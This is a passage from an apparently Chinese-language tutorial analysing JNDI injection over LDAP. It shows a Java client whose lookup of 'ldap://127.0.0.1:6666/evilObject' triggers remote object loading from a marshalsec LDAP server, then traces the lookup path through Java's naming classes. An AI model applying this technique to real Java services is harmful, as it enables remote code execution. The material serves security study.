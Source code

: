####  5.2.1. <a name='-1'></a>示例代码
 - JNDIClient

```java
package org.h3rmesk1t.jndi.LDAPAttack;

import javax.naming.InitialContext;
import javax.naming.NamingException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 7:03 上午
 */
public class JNDIClient {

    public static void main(String[] args) throws NamingException {

        new InitialContext().lookup("ldap://127.0.0.1:6666/evilObject");
    }
}
```

![JNDI-LDAP](./images/17.png)

####  5.2.2. <a name='-1'></a>过程分析
这里利用`marshalsec`起一个`LDAP`服务, 同样将断点下在`lookup`处. 之前的步骤和`RMI`一样, 这里直接分析后面不同的地方.

跟进`GenericURLContext#lookup`方法, 进一步调用`PartialCompositeContext#lookup`方法, 在`for`循环的条件中先调用`ComponentContext#p_lookup`方法.
